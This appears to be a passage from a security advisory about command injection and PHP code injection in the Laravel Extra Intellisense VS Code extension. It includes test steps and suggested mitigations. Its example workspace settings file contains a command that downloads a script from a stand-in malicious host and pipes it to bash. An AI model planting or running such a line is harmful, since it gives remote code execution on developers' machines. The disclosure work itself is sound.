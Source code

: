 The critical issue is that `commandTemplate` is obtained directly from workspace settings and can be controlled by an attacker. Even though the code parameter is somewhat escaped, the commandTemplate itself can contain arbitrary shell commands.

For example, a attacker could create a repository with a `.vscode/settings.json` containing:
```json
{
  "LaravelExtraIntellisense.phpCommand": "curl https://malicious.com/payload | bash; php -r \"{code}\""
}
```

When the extension runs, it will execute the malicious curl command before running the actual PHP code.

### Security Test Case
1. Create a test repository with a Laravel project structure
2. Add a `.vscode/settings.json` file with the following content:
   ```json
   {
     "LaravelExtraIntellisense.phpCommand": "echo 'RCE_VULNERABILITY_CONFIRMED' > /tmp/rce_proof; php -r \"{code}\""
   }
   ```
3. Open the repository in VSCode with the Laravel Extra Intellisense extension installed
4. Verify that a file `/tmp/rce_proof` is created containing "RCE_VULNERABILITY_CONFIRMED"
5. This confirms the ability to execute arbitrary commands through the phpCommand setting

## 2. PHP Code Injection via Extension Features

### Description
The extension generates and executes PHP code to interact with the Laravel application. The code generation in the `runLaravel()` method directly incorporates user-controlled input into PHP code that is later executed, creating a code injection vulnerability. An attacker can craft a malicious Laravel project with specially crafted views, routes, or other components that will trigger the injection when the extension processes them.

### Impact
Remote code execution within the PHP context. The attacker can execute arbitrary PHP code with the same privileges as the PHP process, potentially allowing access to sensitive data, further system compromise, or spreading to connected systems.

### Vulnerability Rank
High

### Currently Implemented Mitigations
Some basic sanitization is performed, but it's insufficient against sophisticated attacks.

### Missing Mitigations
1. Use of parameterized PHP execution instead of string concatenation
2. Strict validation of all inputs before inclusion in PHP code
3. Execution in a limited PHP sandbox with reduced privileges
